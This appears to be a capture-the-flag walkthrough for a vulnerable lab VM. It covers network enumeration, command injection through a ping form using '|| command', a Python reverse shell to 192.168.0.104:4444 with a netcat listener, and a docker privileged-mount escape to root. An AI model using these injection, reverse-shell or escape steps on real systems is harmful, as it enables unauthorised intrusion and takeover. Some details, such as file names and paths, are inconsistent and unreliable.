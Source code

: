 # Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Escelation](#escelation)
- [Bonus](#bonus)
	- [CLI](#cli)
	- [Intresting Files](#intresting-files)


---

## Enumeration
- VM IP: `sudo netdiscover`

	* `VMWare 192.168.0.12 `
	
- VM info: `nmap -A -T4 -v 192.168.0.12`
	
	* <pre>
	  21/tcp open  ftp     vsftpd 2.0.8 or later
	  22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
	  880/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
	  </pre>
	* FTP **Anonymous** log-in is on. 
		* FTP Server Banner: "ftp 'Security@hackNos'"
	  
- Web Server Directory: `dirb -w http://192.168.0.12` 

	* <pre>
	  http://192.168.0.12/index.html
	  http://192.168.0.12/css/style.css
	  http://192.168.0.12/css/2.jpg
	  </pre>
	  
- Web Server 192.168.0.12/5ecure login using:

	* admin:Security@hackNos, FTP Server Banner

- Web Server Directory: `dirb -w http://192.168.0.12/5ecure`		
	* <pre>
	  http://192.168.0.12/5ecure/index.html, form that POSTs data to output.php
	  http://192.168.0.12/5ecure/css/style.css
	  http://192.168.0.12/5ecure/css/2.jpg
	  http://192.168.0.12/5ecure/output.php, simple ping <ip> function + stdout
	  </pre>
---
	
## Penetration
- 192.168.0.12/5ecure/out.php

	* `exec(ping $ip)`, possible shell injection 
	
- $ip = || command

	* '; command' / '&& command' / '& command' didn't work out, possible character escape 
	* Examples:
		* ip=|| ls, *system navigation*
		* ip=|| whoami, *www-data*
		* ip=|| vi *filename*, *privilege check*
		* ip=|| export	

- [intresting files](#intresting-files):

	* /var/opt/python.py, creates a connection to 192.168.0.104:4444 and runs an interactive shell
	* /etc/passwd, user information
---

## Escelation

- `ssh 192.168.0.12 -l recon`
	* pass: Security@hackNos
- `docker run -it --privileged --name=ctf -v /:/host:rw alpine sh`
- container: `cd /host`
---

## Bonus

### CLI 
- configurate host/attacking machine network settings
	* add a new network connection and manualy set it up:
		- IP: 192.168.0.104
		- Netmask: 255.255.255.0
		- Gateway: 192.168.0.1
		- connect to the network using the new interface
- `nc -lvp 4444` to initiate a listener on 4444
- on 192.168.0.12/5ecure/index.php ping scan, run '|| python /var/opt/python.py' 
- tty: `python -c 'import pty; pty.spawn("/bin/bash")'`
- `getent group`: 
	* `docker:x:119:`, passwd --> `recon:x:1000:119:rahul:/home/recon:/bin/bash`
	* recon user gid = docker 
---

### Intresting files

- /var/opt/python.py:
	```
	import socket
	import subprocess
	import os
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("192.168.0.104", 4444))
	os.dup2(s.fileno(), 0)
	os.dup2(s.fileno(), 1)
	os.dup2(s.fileno(), 2)
	p = subprocess.call(["/bin/bash", "-i"])
	```
	
- /var/etc:
	```
	root:x:0:0:root:/root:/bin/bash
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	recon:x:1000:119:rahul:/home/recon:/bin/bash
	ftp:x:111:117:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
	```
